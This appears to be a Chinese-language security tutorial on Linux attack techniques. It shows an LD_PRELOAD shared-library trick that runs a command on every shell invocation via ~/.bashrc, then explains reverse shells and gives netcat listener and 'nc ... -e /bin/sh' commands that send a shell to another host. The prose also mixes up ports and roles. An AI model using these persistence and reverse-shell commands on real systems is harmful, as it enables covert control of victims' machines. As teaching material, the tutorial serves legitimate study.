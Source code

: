 ```````

#### 实现demo

安装gcc环境

```bash
yum -y install gcc
```

编写c语言源码demo.c

```c
# include<stdlib.h>
# include<stdio.h>
# include<string.h>
__attribute__ ((__constructor__)) void preload (void){
 unsetenv("LD_PRELOAD");
 system("id");
}
```
编译和环境配置
```bash
[root@localhost ~]# gcc -shared -fPIC demo.c -o demo.so
[root@localhost ~]# echo "export LD_PRELOAD=/root/demo.so" >> ~/.bashrc
[root@localhost ~]# source ~/.bashrc
[root@localhost ~]# ls
uid=0(root) gid=0(root) 组=0(root) 环境=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
anaconda-ks.cfg  demo.c  demo.so
# 任意命令都会触发id命令
```

删除操作
```bash
[root@localhost ~]# echo $LD_PRELOAD
/root/demo.so
[root@localhost ~]# unset LD_PRELOAD
```

# shell监听
## 定义
通俗来说，shell就是实现用户命令的接口，通过该接口我们能实现对计算机的控制（root权限），而反弹shell就是将shell反弹给攻击者，从而达到让攻击者可以在自己的机器上执行shell命令，从而操控受害者的计算机。
标准说法：reverse shell，就是控制端监听在某TCP/UDP端口，被控端发起请求到该端口，并将其命令行的输入输出转到控制端。reverse shell与telnet，ssh等标准shell对应，本质上是网络概念的客户端与服务端的角色反转。
为什么要反弹
通常用于被控端因防火墙受限、权限不足、端口被占用等情形
假设我们攻击了一台机器，打开了该机器的一个端口，攻击者在自己的机器去连接目标机器，这是比较常规的形式，我们叫做正向连接。远程桌面，web服务，ssh，telnet等等，都是正向连接。那么什么情况下正向连接不太好用了呢？

1. 某客户机中了你的网马，但是它在局域网内，你直接连接不了。
2. 它的 ip 会动态改变，你不能持续控制。
3. 由于防火墙等限制，对方机器只能发送请求，不能接收请求。
4. 对于病毒，木马，受害者什么时候能中招，对方的网络环境是什么样的，什么时候开关机，都是未知，所以建立一个服务端，让恶意程序主动连接，才是上策。

那么反弹就很好理解了，攻击者指定服务端，受害者主机主动连接攻击者的服务端程序，就叫反弹连接。
## nc的使用
第一步：在kali（服务端）上监听23333端口，并反弹shell
```bash
nc -lvp 2333
```
第二步：在Linux（客户端）上连接kali的23333端口
这个时候，客户端就拿到服务端的shell控制权了
可以随意控制服务端
```bash
nc 192.168.173.130 2333 -e /bin/sh
```````